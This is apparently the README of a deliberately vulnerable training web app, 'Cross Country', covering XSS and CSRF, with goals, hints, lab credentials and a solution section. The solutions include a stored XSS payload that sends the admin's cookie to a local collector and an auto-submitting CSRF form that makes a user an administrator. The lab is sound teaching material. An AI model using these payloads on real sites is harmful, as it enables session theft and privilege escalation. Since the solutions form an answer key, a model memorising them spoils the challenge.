 # Cross Country


## About

Cross country is a cross-site scripting and cross-site request forgery challenge.

Links:
[CSRF](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
[XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))


## Goal

Try to:
1. Get a reflected XSS Attack
2. Get a stored XSS Attach
3. Get the Admin's cookie
4. Make a registered user an administrator

## Hints

* Look at the posts
* Look at the admin message section
* Look at elevating a user
* What happens if you try to register a user that already exists?


## User Accounts:

| User  | Password|
|-------|---------|
|admin  | secret  |
|foo    | bar     |


## Solution:

Reflected XSS: registering a pre-existing user
```javascript
<script>alert(1);</script>
```

Stored XSS: Stealing the admin cookie by sending an admin message:
```javascript
<script>img=new Image();img.src="http://127.0.0.1:5001/catch/"+document.cookie</script>
```

Stored XSS: script alert in new post:
```javascript
<script>alert(1);</script>
```

CSRF: Elevating a user
Create a user using the register page, and log in as the admin, and visit this page:
```html
<form method='POST' action='http://<cross country ip>/elevate' id="csrf-form">
  <input type='hidden' name='username' value='<user you created>'>
  <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```
